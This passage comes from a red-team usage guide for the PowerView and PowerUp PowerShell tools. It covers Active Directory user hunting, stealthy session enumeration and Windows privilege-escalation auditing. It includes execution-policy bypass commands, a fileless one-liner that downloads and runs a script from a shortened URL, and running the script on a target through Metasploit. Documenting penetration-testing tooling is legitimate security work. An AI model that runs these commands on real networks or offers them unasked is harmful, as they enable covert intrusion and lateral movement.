 PS C:\> Invoke-Userhunter -Ping
If you want to hunt for a specific user or userlist, or use a pre-populated host list instead of querying AD, there are flags for those actions as well:

PS C:\> Invoke-UserHunter -UserName “jsmith” -HostList hosts.txt
An even stealthier way to find where target users are located is to find all the file servers mounted by users from their homeDirectory fields, and run a Get-NetSessions command on the found file servers. This will give you a large amount of information on most corporate networks with a minimal amount of traffic! Invoke-StealthUserHunter can automate all of this for you nicely:

PS C:\> Invoke-StealthUserhunter -GroupName “Server Admins”
There are plenty of more functions and options in Veil-PowerView than what we covered here: I encourage you to check out PowerView’s README.md as well as the descriptive comments for each cmdlet in the source which detail use cases, arguments and outputs for each function.

If you need to invoke PowerView in a non-interactive context, there are a few additional launching options. If you know the function and arguments you want to run (like Invoke-Netview) you can append the function name to the end of the PowerView file and run it with:

C:\> powershell.exe -nop -exec bypass .\powerview.ps1​ > output.txt
You can also run it straight without any script modifications with:

C:\> powershell.exe -exec bypass -Command “& {Import-Module .\powerview.ps1; Invoke-Netview | Out-File -Encoding ascii output.txt}”
If you want to invoke everything without touching disk, use something like this:

C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mYPUO4′); Invoke-NetView -Ping | Out-File -Encoding ascii netview.txt“
There’s also a Metasploit module for running powershell commands through a session, post/windows/manage/powershell/exec_powershell. Before you use this module, first append the desired function and any arguments (i.e. “Invoke-StealthUserHunter”) to the end of powerview.ps1 on your attacker machine, and then specify the local path to the script in the module options. Metasploit will upload the script, run it on the target, retrieve the results and save them back to your local machine.

If you have any questions on PowerView, hit me up at will [at] harmj0y.net, on twitter at @harmj0y, Freednode (harmj0y in #veil or #armitage), submit an issue on the official Github page, or come check out the Veil-Framework at BlackHat Arsenal.



########################
#PowerUp: A Usage Guide#
########################

Reference:
http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/

Note: this topic was cross-posted on the official Veris Group blog (http://www.verisgroup.com/2014/06/17/powerup-usage/).

PowerUp (http://www.harmj0y.net/blog/powershell/powerup/) is the result of wanting a clean way to audit client systems for common Windows privilege escalation vectors. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, and more to enumerate common ways that you might be able to elevate on a target system. We’ve gotten the chance to test PowerUp in multiple environments, as well integrate public feedback, so I wanted to put together a quick usage guide for those wanting to check it out.
